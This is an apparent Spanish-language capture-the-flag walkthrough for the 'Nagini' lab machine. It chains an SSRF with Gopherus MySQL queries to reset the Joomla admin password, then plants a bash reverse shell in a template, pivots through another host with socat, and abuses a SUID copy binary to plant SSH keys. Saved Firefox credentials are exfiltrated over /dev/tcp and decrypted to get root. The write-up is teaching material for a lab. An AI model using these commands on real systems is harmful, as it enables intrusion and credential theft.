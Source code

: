 [[10.10.0.4 (Aragog)]]
- Pwned #Nagini
`#CSRF` `#HTTP3`
Hacemos un scaneo con [[NMAP]] para ver los puertos abiertos:
`nmap -sT -Pn --top-ports 500 --open -T5 -v -n 10.10.0.5`

```python
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Podemos agilizar la búsqueda mas si usamos un secuenciador junto con xargs
`seq 1 65535 | xargs -P 700 -I {} nmap -sT -Pn -p{} -open -T5 -n -v 10.10.0.5 | grep "tcp open"`

Navegaremos a la pagina web que nos muestra que esta levantada en el puerto `80`
Vemos información sobre la web con la herramienta con [[WHATWEB]]
`whatweb http://10.10.0.5/`
```python
http://10.10.0.5/ [200 OK] Apache[2.4.38], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[10.10.0.5]
```

Vamos a hacer fuzzing sobre la web con la herramienta [[GOBUSTER]]
`gobuster dir -u http://10.10.0.5/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -t 20 -x html,php,txt`
Este nos encontrara los siguientes ficheros
`index.html`
`/joomla`
`note.txt` con el siguiente contenido:
```txt
Hello developers!!


I will be using our new HTTP3 Server at https://quic.nagini.hogwarts for further communications.
All developers are requested to visit the server regularly for checking latest announcements.


Regards,
site_amdin
```

Esto nos indica que se esta usando `HTTP3` que es la tercera versión de HTTP utiliza un puerto UDP
Usaremos la herramienta de quiche con la tool de `./http3-client` como en esta caso no conseguía utilizarla seguí el siguiente paso del video en el que se descubre la ruta:
`/internalResourceFeTcher.php` así que accedemos a ella desde el navegador

Vemos que la URL esta en método get, así que usando la opción 
`?url=` podremos traer al navegador actual por ejemplo llamar a `http://localhost` nos muestra la web del localhost, al igual que podemos cargar la web de la maquina [[10.10.0.4 (Aragog)]] aunque no cargue la imagen. Esto acontece un SSRF (Server Side Request Forgery) y lo podemos usar para enumerar los puertos y servicios internos de la maquina.

Para poder tener conectividad con nuestra maquina atacante lo que haremos sera descargar `socat` y nos lo trasferiremos a la maquina intermedia 192.168.1.23  [[10.10.0.4 (Aragog)]]
Le daremos permisos de ejecución y ejecutaremos la herramienta de la siguiente forma:
`./socat TCP-LISTEN:4343,fork TCP:192.168.1.19:80`
Estamos indicando que todo lo que se pida por el puerto 4343 lo envié a través de la ip de 192.168.1.23  por el puerto 80

En nuestra maquina atacante levantaremos un servidor con python y desde la web de la maquina [[10.10.0.5(Nagini)]] en la url encontrada probamos a acceder a la maquina [[10.10.0.4 (Aragog)]] por el puerto 4343 que es el que le hemos indicado en socat

Ahora desde dentro de la url como tenemos levantado nuestro servidor de python y habilitado todo lo que es el pivoting y el renvió de paquetes intentamos acceder por la url a u8n archivo que creemos en nuestra maquina atacante que se llame `pwned.php` y ver si lo interpreta.

Como no lo interpreta, también encontramos el directorio `/joomla` así que navegamos a el. Usaremo0s la herramienta joomscan para hacer enumeración de vulnerabilidades.
`joomscan -u http://10.10.0.5/joomla/`

La respuesta de la ejecución de esta herramienta nos muestra que esta expuesta la interfaz del administrador `http://10.10.0.5/joomla/administrator/`

También nos encuentra un archivo .bak `http://10.10.0.5/joomla/configuration.php.bak`
Nos lo intentamos descargar para ver su contenido con: `curl -s -X GET http://10.10.0.5/joomla/configuration.php.bak > configuration.php`

Vemos que es un archivo de configuración de la base de datos
Usaremos `gopher` que te permite enumerar bases de datos desde `gopher://` 
Nos clonaremos el repositorio: `git clone https://github.com/tarunkant/Gopherus`
Le damos permisos de ejecución al archivo .py y luego hacemos un enlace simbólico para poder llamarlo desde cualquier parte del sistema: `ln -sf $(pwd)/gopherus.py /usr/local/bin/gopherus`

Ejecutaremos la herramienta con:
`gopherus --exploit mysql` introducimos el nombre de usuario que hemos encontrado en el archivo .bak
Ahora deberemos indicar que QUERY queremos ejecutar por ejemplo, enumerar las bases de datos:
`SHOW databases;`
Y nos muestra una URL a la que podemos acceder desde el navegado donde esta la web que nos permitía inyectar URL en `http://10.10.0.5/internalResourceFeTcher.php`
Tendremos que recargar la pagina varias veces hasta que nos muestre la información, vemos que hay una base de datos llamada joomla, así que ahora enumeraremos las tablas de esa base de datos.
Volvemos a usar el usuario encontrado pero en la QUERY usaremos: `USE joomla; show tables;`

La URL que nos muestra, la volvemos a copiar y la metemos en la pagina de `http://10.10.0.5/internalResourceFeTcher.php` y vemos que hay una tabla de usuarios `joomla_users`

Ahora enumeraremos esa tabla con la misma herramienta y la QUERY: `USE joomla; describe joomla_users;`, vemos que hay columnas de usuario, mail, password, etc...

Nuestra nueva QUERY será: `USE joomla; select name,username,email,password from joomla_users;` y nos mostrara la contraseña del usuario administrador de forma crakeada:
`$2y$10$cmQ.akn2au104AhR4.YJBOC5W13gyV21D/bkoTmbWWqFWjzEW7vay`

Intentaremos crakearlas con [[JOHN THE RIPPER]]: `john --wordlist=/usr/share/wordlists/rockyou.txt hash` 
No vamos a conseguir crakearla así que intentaremos alterar los datos de los usuarios atreves de la herramienta de Gopherus con la siguiente QUERY: `USE joomla; update joomla_users set password='482c811da5d5b4bc6d497ffa98491e38' where username='site_admin';`

El hash de MD5 lo hemos creado a través de la siguiente ejecución: `echo -n "password123" | md5sum` 

Lo volvemos a meter en nuestra web en la que estamos trabajando y nos dice que se ha ejecutado un cambio, ahora en el panel de administración de joomla en la parte del login intentamos acceder con el usuario `site_admin::pasword123` y conseguiremos acceso al panel de administración.

La intrusión se realiza a través de los templates, alojados en la pestaña de Extensions, y se modificara la plantilla de `erro.php`
En la plantilla realizaremos un oneLiner para traernos una bash a nustra maquina atacante, pero como no llega lo tenemos que enviar al nodo mas cercano que en esta caso es [[10.10.0.4 (Aragog)]]:
`system("bash -c'bash -i >& /dev/tcp/10.10.0.4/1111 0>&1'");`

Guardamos el archivo dándole a save. 
Nos conectaremos por SSH a la maquina ARAGOG `ssh root@192.168.1.23`
En nuestra maquina nos pondremos en escucha por el puerto 443 `nc -nlvp 443`

Ahora en la maquina ARAGOG usaremos el socat para redirigir todo el trafico que le entre a ella por el puerto `1111` que lo redirija al `443` de nuestra maquina atacante que es donde estamos nosotros en escucha.

Obtendremos una shell, entonces realizaremos un tratamiento de esta.

Vemos en los home de los usuarios y el usuario `snape`, tiene un fichero `.creds.txt` que contiene la contraseña de su usuario en base64 así que la decodeamos: `cat .creds.txt | base64 -d; echo`
Nos dará como respuesta `Love@lilly`

En el directorio del home de `hermoine` hay una ruta a `./bin/su_cp` con permisos SUID
Es una copia de binario copy del propio sistema, esto nos puede permitir copiarnos archivos a rutas en los que no tenemos capacidad de escritura con el usuario hermione.

Así que vamos a copiarnos nuestra clave publica en el directorio `/tmp/authorized_keys` 
Ahora nos aprovecharemos del binario SUID realizando una copia de ese archivo en el home de hermoine:
`./su_cp /tmp/authorized_keys /home/hermoine/.ssh/authorized_keys`

Ahora si nos salimos de la maquina nos podremos conectar por ssh: `ssh hermoine@10.10.0.5` y obtendremos una shell como el usuario hermoine

En el directorio home de este usuario vemos que hay un directorio `.mozilla/firefox` el cual almacena un perfil de un usuario `g2mhbq0o.default` en el cual en el fichero `logins.json` vemos que se encuentra la contraseña encriptada: `MDoEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECAGAbZHd/uQkBBD9Ftg4gxw85Lco5YQ8g1wt`

Usaremos la herramienta `https://github.com/lclevy/firepwd`
Primero nos tendremos que transferir a nuestra maquina atacante el archivo `key4.db` y el archivo `logins.json`

Nos lo trasferiremos de la siguiente manera:
1.- en la maquina hermoine buscamos el nodo mas cercano en este caso la 10.10.0.4(Aragog)
2.- Nos lo transferimos por el puerto `4646` con `cat < logins.json > /dev/tcp/10.10.0.4/4646`
3.- En la maquina Aragog redirigimos con socat la conexión a la maquina atacante `./socat TCP-LISTEN:4646,fork TCP:192.168.1.21:1215`
4.- En la maquina atacante nos ponemos en escucha con [[NETCAT]] `nc -nlvp 1215 > logins.json`

Haremos el mismo procedimiento para los dos archivos

Ejecutamos el fyrepwd y nos mostrara la contraseña y usuario en texto claro `root::@Alohomora#123`

Y habremos obtenido una shell como root




















